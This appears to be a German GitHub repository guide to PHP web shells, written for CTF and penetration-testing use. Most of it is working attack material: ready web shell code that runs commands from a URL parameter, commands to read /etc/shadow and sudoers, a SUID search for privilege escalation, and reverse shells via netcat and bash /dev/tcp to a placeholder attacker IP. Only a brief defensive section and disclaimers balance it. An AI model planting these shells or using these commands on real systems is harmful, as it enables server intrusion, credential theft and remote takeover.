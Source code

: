 # 🐚 PHP WebShell Usage Guide

## 📘 Kontext

Eine **PHP-Webshell** ist eine serverseitige Datei (z. B. `.php`), die einem Angreifer erlaubt, über den Browser Befehle auf dem Zielsystem auszuführen. Sie werden häufig in Penetration Tests, Capture-the-Flag (CTF)-Challenges oder Sicherheitsanalysen eingesetzt, um **Remote Code Execution (RCE)** nach einem erfolgreichen Upload-Angriff zu ermöglichen.

> ⚠️ **Wichtiger Hinweis:**  
> Dieses Wissen dient ausschließlich der **legalen Sicherheitsforschung**, für **CTFs**, **Testumgebungen** (wie HackTheBox/TryHackMe) oder autorisierte Penetration Tests. Jegliche nicht autorisierte Anwendung ist strafbar.

---

## 🛠️ Beispiel einer einfachen PHP Webshell

```php
<?php
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
?>


⏳ Alternative mit exec()
php
<?php
  echo "<pre>";
  exec($_GET["cmd"], $out);
  echo htmlentities(join("\n", $out));
  echo "</pre>";
?>

Zugriff erfolgt z. B. über:
http://target/uploads/shell.php?cmd=whoami
```

---

## 🔍 Typische Webshell-Kommandos
Sobald du Zugriff auf die Shell hast, kannst du mit folgenden Befehlen arbeiten:

### 🧠 Informationsgewinnung
```bash
uname -a                 # Kernel & Systeminfo
id                       # Aktueller Benutzer & Gruppen
pwd                      # Aktuelles Verzeichnis
whoami                   # Benutzername
```

### 🗂️ Verzeichnisstruktur erkunden
```bash
ls -la /home             # Benutzerverzeichnisse
ls -la /root             # Root-Verzeichnis (Zugriff nur bei root)
ls -la /var/www          # Webserver-Verzeichnis
```

### 📝 Systemdateien lesen

```bash
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
```

### 🌐 Netzwerk-Check
```bash
netstat -anp             # Ports & Prozesse
```

---

## 🔓 Privilege Escalation vorbereiten
Um weitere Rechte zu erlangen oder Root-Zugriff vorzubereiten:
```bash
find / -type f -perm -4000 2>/dev/null
which nc
which python
```
Mit einem gefundenen Tool kann eine Reverse Shell aufgebaut werden.

---

## 📤 Daten exfiltrieren oder Reverse Shell starten
Beispiel mit Netcat (wenn vorhanden):
```bash
nc [AttackerIP] [Port] -e /bin/bash
```

Oder über eine PHP-gestützte Reverse Shell:

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
> 🔁 Den Angriff auf Port 4444 lauschen: 
`nc -lvnp 4444`

---

## 🔐 Schutzmaßnahmen gegen PHP-Webshells
- Für Blue Teams oder Sysadmins:
    - Datei-Uploads strikt validieren (MIME, Magic-Bytes, Dateinamen).
    - Webserver konfigurieren, um Ausführung in Upload-Verzeichnissen zu verhindern.
    - .php, .phtml, .inc etc. blockieren oder als reine Textdateien behandeln.
    - Monitoring-Tools wie OSSEC, Wazuh, LMD (Linux Malware Detect) verwenden.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!


---

## 📚 Siehe auch:

- [phpWebShellBypassTricks.md](/vulnerabilities/sqlInjection/phpWebShell/phpWebShellBypassTricks.md)
- [postExploitationTools.md](/vulnerabilities/sqlInjection/postExploitationTools.md)
- [cmdExamplesFromShell.md](/vulnerabilities/sqlInjection/cmdExamplesFromShell.md)
- [phpRCE_CheatSheet.md](/vulnerabilities/sqlInjection/phpWebShell/phpRCE_CheatSheet.md)